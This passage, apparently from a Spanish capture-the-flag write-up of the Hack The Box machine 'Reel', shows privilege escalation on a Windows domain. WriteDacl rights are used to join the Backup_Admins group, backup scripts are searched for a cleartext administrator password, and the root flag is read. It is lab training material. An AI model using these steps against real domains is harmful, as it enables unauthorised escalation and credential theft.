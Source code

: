 Me conecto por SSH como este nuevo usuario, que es Administrador del dominio y puedo ver la segunda flag

```null
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

claire@REEL C:\Users\claire>                                                                                                    
```

Este usuario tiene ```WriteDacl``` sobre ```Backup_Admins```, por lo que me puedo agregar al grupo

<img src="/writeups/assets/img/Reel-htb/4.png" alt="">

```null
claire@REEL C:\Users\claire>net group Backup_Admins claire /add                                                                 
The command completed successfully.
```

La flag todavía no la puedo ver

```null
claire@REEL C:\Users\Administrator\Desktop>type root.txt                                                                        
Access is denied.                                                                                                               
```

En el directorio ```Backups``` hay una contraseña en texto claro

```null
PS C:\Users\Administrator\Desktop\Backup Scripts> dir | Select-String "Password"                                                

BackupScript.ps1:1:# admin password                                                                                             
BackupScript.ps1:2:$password="Cr4ckMeIfYouC4n!"                                                                                 
```

Es válida para el usuario ```Administrador``` y puedo ver la segunda flag

```null
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            
                                                                                 
administrator@REEL C:\Users\Administrator\Desktop>type root.txt                                                                 
5a3d057ef27131c0f017655fde4acbed 
```